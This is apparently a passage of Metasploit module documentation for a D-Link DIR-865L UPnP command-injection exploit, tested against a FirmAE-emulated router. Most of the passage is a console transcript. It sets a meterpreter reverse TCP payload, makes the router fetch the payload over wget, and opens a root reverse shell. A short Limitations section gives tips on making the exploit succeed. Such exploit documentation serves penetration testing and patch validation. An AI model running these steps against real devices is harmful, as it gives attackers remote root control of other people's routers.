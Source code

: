 ### FirmAE D-Link DIR-865L Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```shell
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > set target 1
target => 1
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > set payload linux/mipsle/meterpreter_reverse_tcp
payload => linux/mipsle/meterpreter_reverse_tcp
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:1900 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.0.2:8080/5W7O47FX
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Client 192.168.0.1 (Wget) requested /5W7O47FX
[*] Sending payload to 192.168.0.1 (Wget)
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.1:59600) at 2023-10-17 18:45:12 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Staged meterpreter payloads might core dump on the target, so use stage-less meterpreter payloads when using the Linux Dropper target.
Some D-Link devices do not have the `wget` command so configure `echo` as cmd-stager flavor with the command `set CMDSTAGER::FLAVOR echo`.
